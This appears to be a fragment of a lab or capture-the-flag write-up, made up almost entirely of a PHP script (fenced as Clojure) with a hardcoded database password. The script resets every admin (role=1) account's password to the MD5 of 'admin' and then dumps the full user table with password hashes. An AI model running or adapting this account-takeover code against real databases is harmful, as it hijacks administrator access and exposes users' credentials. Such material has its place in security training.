 ```clojure
<?php

// Define database connection parameters
$config['DB']['USERS']['dbname'] = "foomegahost";
$config['DB']['USERS']['dbhostname'] = "127.0.0.1:6603";
$config['DB']['USERS']['user'] = "res_foomegahost";
$config['DB']['USERS']['password'] = "C8COcl84QSbM9hL7EC7F";

// Create database connection
$conn = mysqli_connect($config['DB']['USERS']['dbhostname'], $config['DB']['USERS']['user'], $config['DB']['USERS']['password'], $config['DB']['USERS']['dbname']);

// Check if connection was successful
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

// Update password for all rows where role=1
$sql = "UPDATE user SET password='21232f297a57a5a743894a0e4a801fc3' WHERE role=1";
$result = mysqli_query($conn, $sql);

// Check if update was successful
if ($result) {
    // Print the updated user table
    $sql = "SELECT * FROM user";
    $result = mysqli_query($conn, $sql);

    if (mysqli_num_rows($result) > 0) {
        echo "<table><tr><th>ID</th><th>Username</th><th>Password</th><th>Role</th></tr>";
        while ($row = mysqli_fetch_assoc($result)) {
            echo "<tr><td>" . $row["id"] . "</td><td>" . $row["username"] . "</td><td>" . $row["password"] . "</td><td>" . $row["role"] . "</td></tr>";
        }
        echo "</table>";
    } else {
        echo "0 results";
    }
} else {
    echo "Error updating password: " . mysqli_error($conn);
}

// Close database connection
mysqli_close($conn);

?>
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/afd57e63-fbc4-414a-8732-6ad6ac32441c/Untitled.png)

#### Admin Page
